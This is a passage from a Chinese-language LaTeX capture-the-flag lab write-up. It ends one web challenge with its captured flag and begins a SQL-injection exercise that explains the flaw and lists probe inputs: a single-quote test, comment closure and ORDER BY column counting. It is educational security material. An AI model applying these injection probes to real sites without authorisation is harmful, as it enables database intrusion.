    
\includegraphics[width=0.95\textwidth]{2.4.png}
    \caption{Hackbar执行cat命令读取flag}
\end{figure}

\subsection{最终Flag}
\begin{center}
    \Large flag\{UpIo4d\_to\_A\_pL4ce\_WhERE\_We\_c4N\_pIAY\}
\end{center}

\newpage

% --------------------- Web 题目4：例题-SQL注入1
\section{题目4：例题-SQL注入1}
\subsection{实验原理}
SQL注入的本质是\textbf{将用户输入的数据当作SQL代码执行}，违背了「数据与代码分离」的安全原则。当Web程序满足以下三个条件时，就可能存在SQL注入漏洞：
\begin{enumerate}
    \item 程序使用弱类型语言（如PHP）；
    \item 程序中访问数据库的SQL语句直接拼接了用户传入的参数；
    \item 用户可通过传入参数修改原SQL语句的结构。
\end{enumerate}

本题为典型的\textbf{字符型GET注入}，用户可控的\texttt{name}参数直接拼接到查询语句中，可通过闭合单引号、联合查询等方式，逐步获取数据库、表、列信息，最终读取flag。

\subsection{解题步骤}

\subsubsection{步骤一：判断注入点、注入类型与查询列数}
\begin{enumerate}
    \item 访问题目页面，正常输入用户名\texttt{Amy Jones}，页面回显用户数据。
    \item 输入单引号测试：\texttt{Amy Jones'}，页面出现SQL语法报错，确认存在字符型注入，原SQL语句结构为：
    \begin{lstlisting}[language=sql]
SELECT * FROM 表名 WHERE name = '用户输入'
    \end{lstlisting}
    \item 闭合注释测试：\texttt{Amy Jones'\#}，页面恢复正常回显，注入点验证成功。
    \item 使用 \texttt{ORDER BY} 法判断查询列数：输入\texttt{Amy Jones' order by 4\#}页面正常，\texttt{Amy Jones' order by 5\#}页面报错，最终确定查询结果共\textbf{4列}。
\end{enumerate}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{5.1.png}
    \caption{注入点判断与验证（单引号报错）}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{5.2.png}
    \caption{注入点验证（注释闭合正常）与列数判断}
\end{figure}

\begin{figure}[H]
    \centering
